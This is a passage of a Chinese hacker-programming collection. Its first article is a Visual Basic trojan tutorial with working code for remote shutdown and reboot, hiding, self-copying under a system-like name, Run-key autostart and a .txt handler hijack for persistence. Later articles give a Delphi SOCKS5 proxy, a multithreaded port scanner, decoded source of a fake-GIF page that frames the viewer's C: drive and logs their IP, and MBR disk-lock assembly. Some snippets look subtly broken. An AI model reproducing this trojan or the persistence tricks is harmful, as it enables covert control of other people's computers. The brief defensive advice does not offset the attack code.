下面在 Client 工程的 frmClient 窗体中放入三个按钮，分别为 cmdExit、cmdLogoff、cmdReboot。它们用于对远程的关机、注销、重启操作。分别添加如下代码：

```vb
Private Sub cmdExit_Click()
    Me.sckClient.SendData "Exit"
End Sub

Private Sub cmdLogoff_Click()
    Me.sckClient.SendData "Logoff"
End Sub

Private Sub cmdReboot_Click()
    Me.sckClient.SendData "Reboot"
End Sub
```

全都是对服务端发出请求。下面转到 Server 工程中。在 frmServer 中添加 sckServer 的 DataArrival 事件，接收客户端的请求。

```vb
Private Sub sckServer_DataArrival(ByVal bytesTotal As Long)
    Dim strData As String
    With Me
        '接收客户端来的信息
        .sckServer.GetData strData
        Select Case strData
```

## 黑客编程

```vb
Case "Exit"
    '关机
    Call ExitWindowsEx(EWX_SHUTDOWN, 0)
Case "Reboot"
    '重启
    Call ExitWindowsEx(EWX_REBOOT, 0)
Case "Logoff"
    '注销
    Call ExitWindowsEx(EWX_LOGOFF, 0)
End Select
End With
End Sub
```

好了，到此我们已经实现功能了，但还不行，我们要它在背后运行。这简单，在 frmServer 中的 Form_Load 事件中加入一句：`Me.Hide`。好，这下看不见了。但大家知道木马是一开机就自动运行的，这又是为什么，怎么实现的呢？把它加入到注册表的启动组中！对，不错，跟我来吧！

回到 Server 工程中的 modApi 中加入如下 API 函数：

```vb
Public Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

Public Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long

Public Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

Public Const REG_BINARY = 3
Public Const REG_SZ = 1
Public Const HKEY_LOCAL_MACHINE = &H80000002
Public Const HKEY_CLASSES_ROOT = &H80000000

'写到注册表启动组中的过程。
Public Sub StartupGroup()
    Dim sKey As String
    Dim result As Long
    Dim hKeyID As Long
    Dim sKeyVal As String

    sKey = "Systrsy"    '启动组中的键，找一个与系统文件相近的。
    sKeyVal = "C:\windows\system\systrsy.exe"    '木马文件的路径，可以用 GetSystemDirectory 来取系统路径。
    result = RegOpenKey(HKEY_LOCAL_MACHINE, _
        "Software\Microsoft\Windows\CurrentVersion\Run", hKeyID)
    If result = 0 Then
        result = RegSetValueEx(hKeyID, sKey, 0&, REG_SZ, sKeyVal, _
            Len(sKey) + 1)
    End If
End Sub
```

这样就简单地完成了。但是，想过没有，如果不是很菜的鸟，到注册表中见一脚，我们苦苦的心血不就白白地浪费了吗？不行，还得想让他发现了删也删不掉。请看下面的代码：

```vb
Public Sub WriteToTxt()
    Dim result As Long
    Dim hKeyID As Long
    Dim sKey As String
    Dim sKeyVal As String
    sKey = ".txtfile\shell\open\command"
    sKeyVal = "c:\windows\system\txtView.exe"
    result = RegOpenKey(HKEY_CLASSES_ROOT, sKeyVal, hKeyID)
    If result = 0 Then
        result = RegSetValueEx(hKeyID, sKey, 0&, REG_SZ, _
            sKeyVal, Len(sKeyVal) + 1)
    End If
End Sub
```

肯定不少朋友一看就知道了，原来是与 txt 文件进行关联。一点也不错，但 `C:\windows\system\txtView.exe` 是哪里来的，我们的木马是 `C:\windows\system\systrsy.exe` 呀。这可是我们木马的分身了。

好，回到 Server 工程的 frmServer 窗体的 Form_Load 中，加入如下代码：

```vb
Dim sCurrentPath As String, sSystemDir As String
sCurrentPath = App.Path & "\" & App.EXEName & ".exe"
sSystemDir = "C:\windows\system"
On Error Resume Next
'复制文件成系统目录下的 Systrsy.exe
FileCopy sCurrentPath, sSystemDir & "\Systrsy.exe"
On Error Resume Next
'复制文件成系统目录下的 txtView.exe
FileCopy sCurrentPath, sSystemDir & "\txtView.exe"
'调用
Call StartupGroup
Call WriteToTxt
'判断程序是否正在运行
If App.PrevInstance Then
    '如果已经运行就退出。
    End
End If
```

好了，到现在为止，我们的木马已经像个木马了。快把它编译为 EXE 文件吧！只要一运行你的程序，不管在哪里，就会把自身复制到系统目录下（还拷一个分身），下次开机自己就运行了，这样你就可以把他的电脑给黑掉了。即使对方发现也没用了，它一打开 TXT 文件，你的木马又复活了，怎么删也删不掉。

当然这只是个例子，只有简单的功能，而且里面好多地方也还要作修改，比如隐藏你的进程，修改你的木马在系统目录下为隐藏、系统、只读属性等等，就看大家怎么发挥自己的聪明才能了。

## 防范方法

大家可能已经看出来了，即使是再 COOL 的木马，你不运行它，就什么事也不会发生。所以，无邪在这里提醒大家，不要去执行陌生的程序。其它任何自启动的程序都会在注册表启动组、程序菜单启动组或是 win.ini 中的 Load 下留下足迹，所以也让大家常去那些地方看看。


## Delphi做Socks5 UDP代理服务篇

周海波

笨牛由于公司 SYGATE 的版本不支持 SOCKS UDP 代理，而笨牛又喜欢上网和 MM 聊天，所以就自己写了个 SOCKS5 UDP 代理用来和 MM 聊天。

### 1、思路

首先找到 RFC1928（SOCKS Protocol Version 5）看呀看，再上大嘴鳄（www.delphibbs.com）看看关于 Socks5 的一些规则，初步知道了协议的规则。

Socks5 的工作流如下。

Socks5 代理的工作程序是：

- 1. 需要代理方向服务器发出请求信息。
- 2. 代理方应答。
- 3. 需要代理方接到应答后，向代理方发送目的 IP 和端口。
- 4. 代理方与目的方连接。
- 5. 代理方将需要代理方发出的信息传到目的方，将目的方发出的信息传到需要代理方。代理完成。

由于网上的信息传输都是运用 TCP 或 UDP 进行的，所以使用 Socks5 代理可以办到网上所能办到的一切，而且不难，因为对方不会查到你的 IP，既安全又方便。

Socks5 支持 UDP 和 TCP，但两种代理是有区别的，以下分类说明如何用代理 TCP 协议。

- 1. 向服务器的 1080 端口建立 TCP 连接。
- 2. 向服务器发送：05 01 00（此为 16 进制码，以下同）。
- 3. 如果接到 05 00 则是可以代理。
- 4. 发送 05 01 00 01 + 目的地址（4 字节）+ 目的端口（2 字节），目的地址和端口都是 16 进制码（不是字符串）。
  例：202.103.190.27 - 7201
  则发送的信息为：05 01 00 01 CA 67 BE 1B 1C 21（CA=202，67=103，BE=190，1B=27，1C21=7201），前为 16 进制，后为十进制，就是所有的传送命令都是 16 进制。
- 5. 接受服务器返回的自身地址和端口，连接完成。
- 6. 以后操作和直接与目的方进行 TCP 连接相同。

如何用代理 UDP 连接：

- 1. 向服务器的 1080 端口建立 TCP 连接。
- 2. 向服务器发送 05 01 00。
- 3. 如果接到 05 00 则是可以代理。
- 4. 发送 05 03 00 01 00 00 00 00 + 本地 UDP 端口（2 字节）。
- 5. 服务器返回 05 00 00 01 + 服务器地址 + 端口。
- 6. 断开连接。
- 7. 发送 UDP 数据报：格式变为 00 00 00 01 + 目的地址 IP（4 字节）+ 目的端口 + 所要发送的信息。
- 8. 接受与原来相同。

### 2、程序编写

使用 Delphi 设计以上通信过程非常简单，主要是 INDYUDPSERVER、INDYTCPSERVER、INDYUDPCLIENT 的相关事件驱动程序的程序编写。下面给出笔者编写的实验用代理服务器界面与源程序清单，内含简要功能说明，完整程序源代码清单请参看配套光盘。

```pascal
TIdUDPRemoteClient = class(TIdUDPClient) // 自己定义一个类，主要用来记录本地 QQ 的地址和端口；
public
  LocalIP: string;
  LocalPort: Integer;
published
end;

function GetLocalIP: String; // 获得本机的 IP 地址；
begin
end;

// 在 form create
// 监听 1080 端口 // 本地 UDP 服务器，用来监听本地 QQ 发送来的数据
procedure TFrmMain.IdTCPServerConnect(AThread: TIdPeerThread);
var
  S: string;
begin
  S := AThread.Connection.ReadString(3); // 05 01 00 请求代理信息版本
  AThread.Connection.Write(#5#0); // 同意；
end;

procedure TFrmMain.IdTCPServerExecute(AThread: TIdPeerThread);
begin
  s := AThread.Connection.ReadString(4); // 发送 05 03 00 01 00 00 00 00 + 本地 UDP 端口（2 字节） // 接受信息的头并分析是什么类型的代理；
  if s[2] = #3 then // UDP 代理
  begin
    if s[2] = #1 then // Connect 代理；
    begin
      if s[4] = #1 then // IP v4，IP 地址 4 个字节，端口两个字节
        s := s + AThread.Connection.ReadString(4 + 2);
    end;
    if Length(s) > 8 then
    begin
      GetLocalHostIP; // 服务器返回 05 00 00 01 + 服务器地址 + 端口
    end;
  end;
```

```pascal
      Rit[5] := ip[1];
      Rit[6] := ip[2];
      Rit[7] := ip[3];
      Rit[8] := ip[4];  // 返回本地 IP 地址
      if s[1] <> #0 then
      begin
        sCmd := s[2];
        if sCmd = #3 then // UDP 代理处理
        begin
          Rit[9] := #$0C;
          Rit[10] := #$21; // 返回本地的 UDP 服务端口
          AThread.Connection.Write(Rit); // 返回信息，告诉 QQ 要连接的 IP 地址和端口
        end;
      end;
    end;
  end;
end;

procedure TFrmMain.IdUDPLocalUDPRead(Sender: TObject;
  AData: TStream;
  ABinding: TIdSocketHandle);
var
  // 变量定义
begin
  DataStringStream := TStringStream.Create('');
  try  // 00 00 00 01 + 目的地址 IP（4字节）+ 目的端口 + 所要发送的信息
    DataStringStream.CopyFrom(AData, AData.Size); // 解析 QQ 发送过来的数据
    S := DataStringStream.DataString;
    if (S[1] <> #0) and (S[2] <> #0) then Exit;
    sAtyp := S[4];
    DestPort := 0;
    StartSend := 0; // 00 00 00 01 + 目的地址 IP（4字节）+ 目的端口 + 所要发送的信息
    if sAtyp = #1 then // 根据不同的方式解析 1: IP 地址; 3: DOMAIN NAME; 4: IP V6
    begin // IP v4 // 解析目的 IP 和端口。
      DestPort := Ord(S[9]) * $100 + Ord(S[10]);
      Move(s[5], DestSockAddr, 4);
      InAddr.S_addr := DestSockAddr;
      DestAddr := IntToStr(Ord(InAddr.S_un_b.s_b1)) + '.'
        + IntToStr(Ord(InAddr.S_un_b.s_b2)) + '.'
        + IntToStr(Ord(InAddr.S_un_b.s_b3)) + '.'
        + IntToStr(Ord(InAddr.S_un_b.s_b4));
      StartSend := 10;
    end; // 根据不同的目标地址和端口建立 UDP 联系
    try
      for iLoop := 0 to FList.Count - 1 do // 查找这个端口是否连接 UDP 联系
      begin
        IdUDP := FList.Items[iLoop];
        if (IdUDP.Host = DestAddr) and (IdUDP.Port = DestPort) then
        begin
          bFind := True;
          Break;
        end;
      end;
      if not bFind then
      begin
        IdUDP := TIdUDPRemoteClient.Create(nil); // 如没建立本地 UDP，那么再建立一个。
        IdUDP.LocalIP := ABinding.PeerIP;
        IdUDP.LocalPort := ABinding.PeerPort; // 保存 UDP 本地连接信息
        IdUDP.Host := DestAddr;
        IdUDP.Port := DestPort; // 信息的目的地址和端口
        IdUDP.Active := True;
        FList.Add(IdUDP); // 用 FList 记录对象
      end; // 00 00 00 01 + 目的地址 IP（4字节）+ 目的端口 + 所要发送的信息
      SendStr := Copy(S, StartSend + 1, Length(S) - StartSend); // 根据格式分离出发送的信息
      if Assigned(IdUDP) then
        if IdUDP.Active then
          IdUDP.Send(SendStr); // 将数据发送到对方 QQ。
    except
    end;
  finally
    DataStringStream.Free;
  end;
end;

procedure TFrmMain.TimerTimer(Sender: TObject);
// 变量定义
begin
  for iLoop := 0 to FList.Count - 1 do
  begin
    IdUDP := FList.Items[iLoop];
    if not Assigned(IdUDP) then Continue;
    if IdUDP.Active then
    begin
      S := IdUDP.ReceiveString(PeerIP, PeerPort, 200); // 接收从对方 QQ 发送过来的信息
      if S <> '' then
      begin
        // 处理收到的信息。
        // 将数据转发给本地 QQ。 // 00 00 00 01 + 目的地址 IP（4字节）+ 目的端口 + 所收到的信息。
        IdUDPLocal.SendBuffer(IdUDP.LocalIP, IdUDP.LocalPort, Buffer, Length(S) + 10);
      end;
    end;
  end;
end;
```

### 3、后记

有编程经验的朋友完全可以另行增加代理服务器功能，如 CONNECT、BIND、加入用户校验等，有兴趣的朋友可以给我发邮件 manniuyemanniu@163.com。（同时本软件在配套光盘中有提供）

## 帝国狂潮的设计方法

蛮牛 野蛮牛

在你的主机接入互联网后，会打开许多通信端口。通常这些端口有一部分是你与外界通信所必须的，如你浏览 WWW、使用 QQ 都会打开一些通信端口；另有一部分是系统某些网络服务程序自动打开的端口，如 Web 服务常用的 80 端口、FTP 服务的 21 端口、Windows 2000 的远程接入端口 3389，QQ 的 4000 或 8000 端口等。

黑客们通常在确定 IP 地址后会扫描这些端口，或者集中扫描某一个 IP 地址段开放某一端口的所有地址，这些端口信息对黑客针对网络应用程序漏洞的攻击十分重要。

通常来说，黑客在开始攻击主机之前，会先检测主机的操作系统及 Web、FTP 等服务器的类型，扫描主机端口是每一次攻击行为前的必备工作，相当于战前收集敌方的情报。攻击者往往会根据扫描端口的反馈结果来推断攻击主机开通了哪些服务。

对于个人用户而言，作为安全考虑，如果没有什么特殊的需要，建议使用 Win98 或者 WinMe 这两个应用于个人的操作系统。除了开放了 139 端口外，没有别的网络服务程序端口。这样除非攻击者已经给你的主机植入了木马，否则他至多通过扫描 139 端口，确定开放后通过 ICMP 数据攻击造成你蓝屏死机，但不会给你的系统造成诸如删除文件之类的灾难。

上面说了一些基础知识，下面我给朋友们简单介绍一下端口扫描程序在 DELPHI 下是如何实现的。

基本编程思想：端口扫描的编程思想非常简单，它主要是通过 TCP/IP 协议，连接对方的主机端口，如果连接成功就说明这个端口是打开的。本文的主题就是探讨一下如何进行一个多线程端口扫描程序的设计方法。我个人认为我编制的这个程序有如下特点：它能够在较快的速度下用 Connect 方式进行大网段范围的端口扫描工作。

在 DELPHI 中，线程的设计方法非常简单。下面就是部分程序源码，“//”后为注释部分。全部源程序请在光盘中查找。

```pascal
var
  WSAData: TWSAData;

procedure Startup;
begin
  ErrorCode := WSAStartup($0101, WSAData); // 判断WINSOCK是否能够启动
end;

procedure Cleanup;
begin
  ErrorCode := WSACleanup; //
end;

procedure TFrmMain.btnStartClick(Sender: TObject);
begin
  for i := 1 to StrToInt(edtThrPool.Text) do
  begin
    // FList用来存放每个线程指针
    StrList := TStringList.Create; // 建立IP地址和端口存储
    StrList.Add(CurIP + '=' + CurPort); // 建立线程池，并把要扫描的端口分配给线程
    FList.Add(TScanThread.Create(StrList, False));
    // TScanThread是继承自TThread的线程。
  end;
end;
```

```pascal
end;
end;

procedure TFrmMain.btnStopClick(Sender: TObject);
var
  iLoop: Integer;
  Obj: TObject;
begin  // 释放线程池里面的所有线程
  for iLoop := FList.Count - 1 downto 0 do
  begin  // 查看线程池内有多少线程
    if FList.Items[iLoop] <> nil then // 假如线程没有被释放
    begin
      Obj := FList.Items[iLoop]; // 从线程池内获取线程
      TScanThread(Obj).Terminate; // 中断线程
      FList.Delete(iLoop); // 释放线程池里面指针
    end;
  end;
end;

procedure TFrmMain.isScaned(fScanIP, fScanPort: string; fTimeOut: Integer);
var
  Str: TScanRec;
  ftcpClient: TIdTCPClient;
begin
  ftcpClient := TIdTCPClient.Create(nil); // 建立扫描对象。
  try
    Str.Str := fScanIP + ':' + fScanPort;
    ftcpClient.Disconnect;
    ftcpClient.Host := fScanIP;
    ftcpClient.Port := StrToInt(fScanPort);
    ftcpClient.Connect(fTimeOut); // 端口扫描
    if ftcpClient.Connected then // 扫描连接成功
      SendMessage(FrmMain.Handle, WM_Scaned, Integer(@Str), 0);
    // 假如扫描成功则添加到ListView
  finally
    ftcpClient.Disconnect;
    FreeAndNil(ftcpClient); // 释放扫描对象。
  end;
end;

procedure TFrmMain.wmScan(var Msg: TMessage);
var
  Str: PScanRec;
  ScanIP, ScanPort: string;
  ssThread: TSSThread;
begin // 按所需要扫描的消息，从 TSCAN THREAD 发出。
  Application.ProcessMessages; // 处理应用程序消息。
  CriticalSection.Enter; // 进入临界区
  Str := PScanRec(Msg.WParam);
  ScanIP := Fetch(Str^, Str^, '^');
  ScanPort := Str^;
  StatusBar.Panels[0].Text := ScanIP;
  StatusBar.Panels[1].Text := ScanPort;
  try
    // isScaned(ScanIP, ScanPort, StrToInt(editTimeOut.Text)); // 慢速扫描
    ssThread := TSSThread.Create(ScanIP, ScanPort, StrToInt(editTimeOut.Text), True); // 建立扫描线程，通过线程扫描；
    ssThread.Resume; // 启动线程
  finally
    CriticalSection.Leave; // 离开临界区
  end;
  Application.ProcessMessages;
end;

procedure TFrmMain.wmScaned(var Msg: TMessage);
var
  Str: PScanRec;
  ScanIP, ScanPort: string;
  ListItem: TListItem;
begin
  Application.ProcessMessages;
  Str := PScanRec(Msg.WParam); // 假如扫描成功则添加到ListView
  try
    ListItem := lvView.Items.Add;
    ListItem.Caption := ScanIP;
    ListItem.SubItems.Add(ScanPort);
  finally
  end;
  Application.ProcessMessages;
end;

// 扫描线程：
constructor TSSThread.Create(ScanIP, ScanPort: string; iTimeOut: Integer; CreateSuspended: Boolean);
begin
  fScanIP := ScanIP; // 扫描IP
  fScanPort := ScanPort; // 扫描端口
  fTimeOut := iTimeOut; // 超时
  FreeOnTerminate := True;
  OnTerminate := ThreadDone;
  Startup;
  inherited Create(CreateSuspended);
end;

procedure TSSThread.Execute;
var
  Str: TScanRec;
  mask: TFDSet;
  value: uLong;
  sockfd: TSocket;
  timeout: TIMEVAL;
  addr: SOCKADDR_IN;
begin
  inherited;
  try
    Str.Str := fScanIP + '^' + fScanPort;
    sockfd := socket(PF_INET, SOCK_STREAM, IPPROTO_IP); // 建立一个SOCKET

    if (sockfd <> INVALID_SOCKET) then
    begin
      value := 1;
      ioctlsocket(sockfd, FIONBIO, value);
      addr.sin_family := AF_INET; // 配置SOCKET地址、协议等
      addr.sin_port := htons(StrToInt(fScanPort));
      addr.sin_addr.s_addr := ntohl(htonl(inet_addr(@fScanIP[1])));

      connect(sockfd, addr, sizeof(addr)); // 连接到目标主机
      timeout.tv_sec := fTimeOut; // 超时时间长度
      timeout.tv_usec := 0;
      FD_ZERO(mask);
      FD_SET(sockfd, mask); //
      value := select(sockfd + 1, nil, @mask, nil, @timeout); //
      if (value and value) <> SOCKET_ERROR then // 连接成功；
        SendMessage(FrmMain.Handle, WM_Scaned, Integer(@Str), 0);
      closesocket(sockfd); // 关闭套接字；
    end;
  finally
    Terminate;
  end;
end;

procedure TSSThread.ThreadDone(Sender: TObject);
begin
  Cleanup;
end;
```

在配套光盘中我提供了两个相关程序，PORT 是速度比较低的，PORTSCAN 是高速扫描，但是你必须有很大的内存，最好是运行在 Windows 2000 上。

有兴趣的朋友可以给我发邮件，邮箱地址：manniuyemanniu@163.com。

## 揭开能显示 IP 和 C 盘图片的神秘面纱


很早就知道 HTML 语言有一个 `<iframe>` 标签有很大用处，比如一个网站的公告处，可以用这个标签来调用另一个页面。仅仅是一个小小的内嵌框架，就可以调用一整个 HTML，让人能很方便地看到所有公告。

但是，既然能调用自身以外的页面，能不能调用其它的非 Web 页面呢？答案是肯定的。图 1 为调用自己的 D 盘。


大家通过图 1 可以清楚地看到我的 D 盘，并且可以对文件或文件夹进行任何操作。大家是不是认为中了木马？

不过，最近我还碰到了一个更邪门的页面。一个能显示我的 IP 和 C 盘的“图片”，大家有兴趣可以到 1982y.com/hacker/hacker.gif（不过，也许你去的时候，这个网页已经不在了，不过，图 2 就是，看看先）去看看。大家注意到了，这是一张图片啊！清清楚楚显示出你的 C 盘内容还有你的 IP！如图 2 所示。


大家第一次看的时候是不是和我一样糊涂了？动态格式的 GIF 图片再怎么动态，也不至于把我的 IP 和 C 盘内容这么智能地显示出来吧？都扯上 ASP 了，琢磨了半天，就是不明白。

突然灵光一闪，想起曾经有一篇文章里提到有一个 IE 漏洞。漏洞是这样的，在 TXT、JPG、GIF、PNG 甚至无扩展名的文件里，只要文本中含有完整的 HTML 语句格式，用 IE 读出，里面的 HTML 代码就可以运行。我按着这个想法，查看了 1982y.com/hacker/hacker.gif 的源代码，它已经被加密过了，嘿……还怕被曝光。我来解密，我的天，终于解开了……代码如下：

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">
<meta http-equiv="Pragma" content="no-cache">
</head>

<body bgcolor="#FFFFFF" text="#000000" onload="crap.style.display=''" onmousedown="return false" onmousemove="return false" ondragstart="return false" onselect="return false" onselectstart="return false" ondragstart="return false" style="overflow:hidden">

<div id='crap' style='display:none'> 
  <div style='width:520;height:380;position:absolute;left:118;top:170'>
    <iframe src="C:\" width="520" height="380" style="z-Index:1"></iframe>
  </div>
  <div id='hehe' style='font-family:MS Sans Serif;font-size:15px;position:absolute;top:56px;left:155px'>
    <iframe src='ip.asp' width=100 height=18 frameborder=0 scrolling=no></iframe>
  </div>
</div>
</div>
<div id="" style='position:absolute;top:0;left:0;height:30000000;width:100000;z-Index:100000;overflow:hidden'></div>
<div id='mousefuck' style='position:absolute;top:0;left:0;height:3;width:1;z-Index:100000;overflow:hidden'><iframe src='d.asp' width=100 height=100 frameborder=0 scrolling=no></iframe></div>
<div id="fuckup" onresize="c()"></div>

<script language="javascript">
function c(){
  mousefuck.style.left = event.x-2
  mousefuck.style.top = event.y-3
}
setInterval("fuckup.style.width=Math.round(Math.random()*10)",1)
</script>
</body></html>
```

大家注意看粗体的地方：

```html
<body bgcolor="#FFFFFF" text="#000000" onload="crap.style.display=''" onmousedown="return false" onmousemove="return false" ondragstart="return false"
onselect="return false" onselectstart="return false" ondragstart="return false" style="overflow:hidden">
```

这里表示禁止了右键的一些功能，比如禁止了查看源代码、使“另存为”无效等等，但是还是可以从菜单的选项里看到源代码。真正用 IE 来打开这个图片文件时，却发现菜单上面的“查看→源文件”是无效的，通过这点我们就可以判断出它是一张假的图片。

```html


<iframe src="C:\" width="520" height="380" style="z-Index:1"></iframe>

<iframe src="ip.asp" width=100 height=18 frameborder=0 scrolling=no></iframe>

<iframe src="d.asp" width=100 height=100 frameborder=0 scrolling=no></iframe>
```

上面这三句就是我们开头所说的内嵌框架标签。第一个调用了 C:，这样无论在哪台电脑上，显示的都是自己；第二个调用的是一个能探测 IP 的 ASP 程序；第三个调用的 ASP 程序用途不明，我想应该是使“图片”更加逼真。“mousefuck”是取消一切点击在“mousefuck”这个“div”上的鼠标事件，这样那个“iframe”看起来好像是图片而不是可以滚动、拷贝粘贴的页面。而“fuckup”则是用一个空白的“div”造出图片慢慢从网络上下载并显示的效果。

大家是否已经清楚这个“图片”的原理了，其实这并不是我写这篇文章的目的。大家想想，既然可以运行 HTML 代码，那如果在代码里嵌入 Javascript 脚本来修改注册表呢？或是内嵌几个网页病毒，再或者内嵌木马呢？因为这个漏洞确实可以危害到我们的系统。大家再也不要对 JPG、GIF、PNG 掉以轻心了，因为它可以通过 JPG、GIF、PNG 这个屏障来挟持修改注册表的恶行。

解决办法：装一个可以防止恶意代码的杀毒软件，推荐用诺顿或 KV3000 杀毒王。如果是使用 Windows 2000，可以停止 Remote Registry Service 这个服务来阻止远程修改注册表。


## 利用江民锁原理写的一个硬盘锁程序

涂彦晖

我在前一段时间写了一个硬盘锁，拿出来和大家交流交流，同时有个问题，希望大家能帮我想想。

首先，大略介绍一下我的程序。我是用汇编写成，程序有 2 个文件：hdboot.exe、hdboot.dat。hdboot.dat 是用于装入硬盘 0 柱 0 道 1 扇的硬盘锁，hdboot.exe 实现：

- 1、把 hdboot.dat 装入硬盘 0 柱 0 道 1 扇并设置硬盘锁的密码；
- 2、修改密码；
- 3、卸载硬盘锁。

在此，我主要介绍 hdboot.dat。因为硬盘锁本身受空间限制，必须严格控制在 1BDH 字节内（知道为什么吗？），所以是不能用 masm 先写原程序然后再编译。我基本上是用 debug 的 A 命令一次性写出来的，我再把这些反汇编出来，加上一些注释，给大家看看，互相交流。本程序我已在 WIN98、WIN2K 及 WINXP 下通过，因为笔者手头仅有 LINUX 的机器，但原理上也是没有问题的。在介绍 HDBOOT.DAT 之前，有必要介绍一下数据环境：

- 1. 硬盘的 0 柱 0 道 2 扇是已经由 HDBOOT.EXE 写入的由硬盘锁代码（也就是大家看到的以下代码）加上正确的硬盘分区表组成，在输入正确密码后将其写入 0 柱 0 道 1 扇后，操作系统就可正常读取硬盘了。
- 2. 0 柱 0 道 2 扇是已被 HDBOOT.EXE 写入的由硬盘锁代码（也就是大家现在看到的代码）加上逻辑锁，在输入不正确的密码后将其写入 0 柱 0 道 1 扇后，操作系统就被完全锁死了（不能从其它盘引导）；
- 3. 0 柱 0 道 3 扇区已被 HDBOOT.EXE 写入原 MBR 区的备份，在输入正确的密码后，程序将其读入 0000:7C00 处，并把执行权交给 0000:7C00 处，从而使机器正确引导。下面就来看看这些代码：

```asm
HDBOOT.DAT 用于装入硬盘 0 柱 0 道 1 扇的硬盘锁
这二段是将整个硬盘锁从 0000:7C00 移至 0000:0600，以免被后来嵌入的代码覆盖。

0F6D:0100 1E        PUSH DS
0F6D:0101 06        PUSH ES
0F6D:0102 B9 0001   MOV CX,0100
0F6D:0105 BF 0006   MOV DI,0600
0F6D:0108 B8 0000   MOV AX,0000
0F6D:010B 8E D8     MOV DS,AX
0F6D:010D 8E C0     MOV ES,AX
0F6D:010F BE 007C   MOV SI,7C00
0F6D:0112 F2        REPNZ
0F6D:0113 A5        MOVSW
0F6D:0114 EA1A060000 JMP 0000:061A

0F6D:0119 90        NOP
0F6D:011A EB09      JMP 0125

这二段是对屏幕进行初始化，显示字符串“PASSWORD”
0F6D:0125 B8 0006   MOV AX,0600
0F6D:0128 B7 F0     MOV BH,F0
0F6D:012A B9 0000   MOV CX,0000
0F6D:012D BA 4F18   MOV DX,184F
0F6D:0130 CD10      INT 10
0F6D:0132 B2 1A     MOV DL,1A
0F6D:0134 BE1C06    MOV SI,061C
0F6D:0137 B4 02     MOV AH,02
0F6D:0139 B6 10     MOV DH,10
0F6D:013B B7 00     MOV BH,00
0F6D:013D CD10      INT 10
0F6D:013F 8A04      MOV AL,[SI]
0F6D:0141 3C00      CMP AL,00
0F6D:0143 741B      JZ 0160
0F6D:0145 B4 09     MOV AH,09
```

## 黑客编程

```asm
0F6D:0147 B90100    MOV CX,0001
0F6D:014A B700      MOV BH,00
0F6D:014C B370      MOV BL,70
0F6D:014E CD10      INT 10      ; 显示一个字符
0F6D:0150 FEC2      INC DL      ; 光标后移一位
0F6D:0152 46        INC SI      ; 字符指针后移一位
0F6D:0153 EBE2      JMP 0137    ; 继续显示下一个字符
0F6D:015C           DB "PASSWORD",00 ; 用于显示的字符串
```

读密码

```asm
0F6D:0160 B90400    MOV CX,0004
0F6D:0163 B80000    MOV AX,0000
0F6D:0166 8EC0      MOV ES,AX
0F6D:0168 BF0108    MOV DI,0801
0F6D:016B F3        REPZ
0F6D:016C AB        STOSW      ; 在0000:0801开始处开辟长度为8个字节的缓冲区（用00做标记）用于存放从键盘输入的密码，密码最多为8个字符，少于8个字符）
0F6D:016D B90900    MOV CX,0009  ; 最多按9次键盘（当然第9次是回车，才通过）
0F6D:0170 BF0108    MOV DI,0801  ; 从801H处开始写密码
0F6D:0173 B223      MOV DL,23
0F6D:0175 B400      MOV AH,00
0F6D:0177 CD16      INT 16       ; 读键盘
0F6D:0179 3C0D      CMP AL,0D
0F6D:017B 7479      JZ 01F6      ; 是回车则跳至密码比较处
0F6D:017D B402      MOV AH,02
0F6D:017F 90        NOP
0F6D:0180 90        NOP
0F6D:0181 B610      MOV DH,10
0F6D:0183 B700      MOV BH,00
0F6D:0185 CD10      INT 10       ; 设置光标位置（当然是PASSWORD!字符串后面了）
0F6D:0187 3C08      CMP AL,08
0F6D:0189 7437      JZ 01C2      ; 是退格键则跳至退格处理
0F6D:018B 50        PUSH AX
0F6D:018C B40E      MOV AH,0E
0F6D:018E B02A      MOV AL,2A
0F6D:0190 B307      MOV BL,07
0F6D:0192 CD10      INT 10       ; 显示一个*（没有回显的密码输入是不是很恐怖）
0F6D:0194 58        POP AX
0F6D:0195 0423      ADD AL,23    ; 密码字符加23H（受空间限制，加密程序在系统启动扇区中。这里，我只提供简单的将密码加上23H，如果谁有好奇的算法，别忘了告诉我哦）
0F6D:0197 8805      MOV [DI],AL
0F6D:0199 47        INC DI
0F6D:019A 49        DEC CX
0F6D:019B 83F909    CMP CX,+09
0F6D:019E 740A      JZ 01AA      ; 是按读了第9次键盘，是则转至输入溢出处
0F6D:01A0 FEC2      INC DL
0F6D:01A2 EBD1      JMP 0175
```

本段用于处理键盘输入超过8次

```asm
0F6D:01AA B610      MOV DH,10
0F6D:01AC B409      MOV AH,09
0F6D:01AE B223      MOV DL,23
0F6D:01B0 B700      MOV BH,00
0F6D:01B2 CD10      INT 10
0F6D:01B4 B409      MOV AH,09
0F6D:01B6 B000      MOV AL,00
0F6D:01B8 B307      MOV BL,07
0F6D:01BA B90900    MOV CX,0009
0F6D:01BD CD10      INT 10
0F6D:01BF EB9F      JMP 0160     ; 重新读取密码
```

本段用于退格处理

```asm
0F6D:01C2 51        PUSH CX
0F6D:01C3 B403      MOV AH,03
0F6D:01C5 B700      MOV BH,00
0F6D:01C7 CD10      INT 10       ; 取光标位置
0F6D:01C9 80FA23    CMP DL,23
0F6D:01CC 74A7      JZ 0175      ; 光标是否已到头，是则去读下一个字
0F6D:01CE 81FF0008  CMP DI,0800
0F6D:01D2 74A1      JZ 0175      ; 密码缓冲是否已到头，是则去读下一个字
0F6D:01D4 B402      MOV AH,02
0F6D:01D6 FECA      DEC DL
0F6D:01D8 CD10      INT 10
0F6D:01DA B40E      MOV AH,0E
0F6D:01DC B000      MOV AL,00
0F6D:01DE B307      MOV BL,07
0F6D:01E0 CD10      INT 10       ; 光标前移一位，并删除一个*
0F6D:01E2 B80000    MOV AX,0000
0F6D:01E5 8905      MOV [DI],AX   ; 密码缓冲当前指针处清零
0F6D:01E7 4F        DEC DI       ; 密码缓冲指针减一
0F6D:01E8 8905      MOV [DI],AX   ; 密码缓冲当前指针处清零
0F6D:01EA 59        POP CX
0F6D:01EB EBB8      JMP 0175     ; 重新读键盘
```

本段用于比较密码

```asm
0F6D:01F6 B80000    MOV AX,0000
0F6D:01F9 8EC0      MOV ES,AX
